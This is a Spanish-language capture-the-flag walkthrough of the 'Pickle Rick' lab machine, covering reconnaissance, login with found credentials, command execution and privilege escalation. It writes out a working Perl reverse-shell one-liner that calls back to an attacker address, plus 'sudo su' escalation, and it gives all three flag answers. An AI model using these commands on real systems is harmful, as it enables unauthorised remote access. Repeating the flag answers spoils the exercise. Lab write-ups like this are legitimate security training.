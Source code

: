 # Pickle Rick

Primero realizamos un escaneo de puertos con **Nmap** para visualizar que servicios tiene corriendo dentro de la máquina de tal manera recopilamos información para posteriormente evaluar las vulnerabilidades y tratar de explotarlas.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/nmap.png)


Vemos un puerto interesante y es el 80, el cual significa que esta alojado un servidor web en dicho puerto, accedemos a la direccion ip de la maquinas desde el navegador para revisar si existe alguna pagina web.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/pagina%20web.png)

Revisamos que hay una pagina web, ahora debemos revisar el codigo fuente de la pagina y ver si podemos encontrar algo.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/codigo%20fuente.png)

Podemos encontrar un nombre de usuario dentro de la pagina web, el cual es el siguiente:

    Username: R1ckRul3s 

Ahora realizamos un ataque de fuerza bruta para descubrir los directorios ocultos dentro del servidor de pagina web.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/gobuster.png)

Encontramos un archivo muy importante que la mayoria de los servidores web tienen, dicho archivo es llamado "**robots.txt**" el cual contiene las rutas no indexadas de la pagina web, ahora vamos a leer el archivo y visualizar que contiene adentro.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/robots.png)

Podemos observar que contiene una palabra muy peculiar, la cual debemos guardar ya que posiblemente pueda tratarse de una contraseña.

     Wubbalubbadubdub

Ahora volvemos a realizar el descubrimiento de directorios y podemos observar que existe un archivo llamado "**login.php**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/login.png)

 Accedemos a ese directorio.
 
 ![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/portal%20login.png)

Ingresamos las posibles credenciales que hemos encontrado:

      R1ckRul3s
      Wubbalubbadubdub

Al intentar ingresar las posibles credenciales nos da un login exitoso, visualizamos una pagina que parece ser una especie pagina para ejecutar comandos dentro de la maquina.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/page%20commands.png)

 Intentamos ejecutar un comando simple como "**ls**".
 
 ![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/ls.png)
 
Vemos que si se ejecuto de manera exitosa el comando, visualizamos una lista de archivos el cual nos interesa uno llamado "**Sup3rS3cretPickl3Ingred.txt**", intentamos leer su contenido.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%20Sup3rS3cretPickl3Ingred.txt.png)

Nos salta un error ya que el comando "**cat**" esta deshabilitado para el servidor remoto, intentemos leer el archivo con otro comando de lectura llamado "**strings**".

     	strings Sup3rS3cretPickl3Ingred.txt

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/strings%20Sup3rS3cretPickl3Ingred.txt.png)

#### What is the first ingredient Rick needs?
mr. meeseek hair

Una vez visualizando que podemos ejecutar comandos de linux podemos deducir que es posible escribir una "**Reverse Shell**" para poder acceder al servidor directamente.

      perl -e 'use Socket;$i="10.9.5.12";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Antes de ejecutar la "Reverse Shell", debemos poner a la escucha "**netcat**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/netcat.png)

##### ¡Estamos dentro!
Ahora ejecutamos el comando de "**whoami**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/whoami.png)

# Shell Upgrading

Para trabajar mas comodo vamos a realizar una "Shell Upgrading", ejecutamos lo siguiente en la terminal:

    	/usr/bin/script -qc /bin/bash /dev/null

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/shell%20upgrading.png)

Una vez realizando la actualizacion de la shell, buscamos la segunda bandera, **siempre debemos buscar dentro de las carpetas de /home/**.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/home-ls.png)

Nos aparece dos carpetas, accedemos a la carpeta llamada "**rick**" y ejecutamos el comando "**ls**" y vemos un archivo llamado "**second ingredients**" y obtenemos la segunda bandera.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/second%20secret.png)

#### Whats the second ingredient Rick needs?
1 jerry tear

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%20second%20ingredients.png)

#Privilege Escalation
Debemos encontrar algun script que tenga permisos de ejecucion root para poder aprovecharnos de el, en linux se les conoce como "**SUID Binaries**", para poder encontrar dichos archivos debemos ejecutar lo siguiente:

    	find / -perm -4000 2>/dev/null
Nos aparecera lo siguiente:

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/suid%20su.png)

El binario que nos importa es uno llamado "**/bin/su**", para verificar que como se puede explotar, vamos a consultar la pagina [GTFOBins](https://gtfobins.github.io/) y buscamos el binario "**su**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/su.png)

Ahora escribimos el resultado que nos mostro **GTFOBins** para escalar privilegios:

    	sudo su

### ¡Ahora tu servidor es mío!
Hemos escalado privilegios, para confirmar que efectivamente fue asi, ejecutamos "**whoami**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/root.png)

Cambiamos a la carpeta de "**/root**" y revisamos su contenido de dicha carpeta.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cd%20root.png)

podemos encontrar la ultima bandera que nos falta, leemos el archivo "**3rd.txt**".

#### Whats the final ingredient Rick needs?
3rd ingredients: fleeb juice

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%203rd%20ingredients:%20fleeb%20juice.png)

Hemos finalizado el reto hasta llegar a ser **owner** del servidor.
